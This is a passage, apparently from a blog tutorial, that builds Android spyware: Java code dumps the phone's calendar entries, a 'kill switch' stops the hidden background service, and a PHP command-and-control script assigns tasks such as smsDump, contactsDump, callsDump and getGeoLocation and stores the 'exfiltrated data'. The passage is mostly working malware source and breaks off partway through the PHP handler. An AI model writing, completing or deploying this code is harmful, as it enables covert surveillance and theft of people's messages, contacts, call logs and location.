             if (cursor.getCount() > 0) {
                while (cursor.moveToNext()) {
                    String name = cursor.getString(0);
                    String displayName = cursor.getString(1);
                    String color = cursor.getString(cursor.getColumnIndex(CalendarContract.Calendars.CALENDAR_COLOR));
                    calendar.add("\n Name=>" + name + "\n Display Name=>" + displayName + "\n Color=>" + color + "\n");
                }
            }
        } catch (AssertionError e) {
            e.printStackTrace();
        }
        cursor.close();
    }
    return calendar;
}
{% endhighlight %}

### 2.2.8. Service Termination
In case you want to remotely terminate the background service, you may use `kill` keyword as a kill switch:

{% highlight java %}
AlarmManager alarmManager = (AlarmManager) getSystemService(Context.ALARM_SERVICE);
Intent invokeService = new Intent(getApplicationContext(), Fetcher.class);
PendingIntent pintent = PendingIntent.getService(getApplicationContext(), 0, invokeService, 0);
if (alarmManager != null) {
    alarmManager.cancel(pintent);
    stopSelf();
}
{% endhighlight %}

## 2.3. Implementation
The backend Apache2 server hosts a PHP script which handles queries and processes data. For the sake of simplicity, the following script does not include any MySQL database, instead, we will save exfiltrated data in a simple text file:

{% highlight php %}
<?php
if ($_SERVER["REQUEST_METHOD"] == "GET") {
	if (isset($_GET["uuid"]) && !empty($_GET["uuid"])) {
		$id = sanitize($_GET["uuid"]);
		if (preg_match("/[0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12}/i", $id)) {
			// Available: kill, smsDump, contactsDump, callsDump, getGeoLocation, appsDump, deviceInfo, calendarsDump
			$json = [ 'uuid' => $id, 'task' => 'smsDump' ];
			header('Content-type:application/json;charset=utf-8');
			echo json_encode($json);
		}
		else {
			echo "Incorrect UUID format";
		}
	}
	else {
		echo "UUID not set";
	}
}
else if ($_SERVER["REQUEST_METHOD"] == "POST") {
	if (!isset($_POST['task']) || !isset($_POST['uuid']) || !isset($_POST['data'])) {
		die("Incorrect POST parameters");
	}

	$id = sanitize($_POST['uuid']);
	$task = sanitize($_POST['task']);
	$data = $_POST['data'];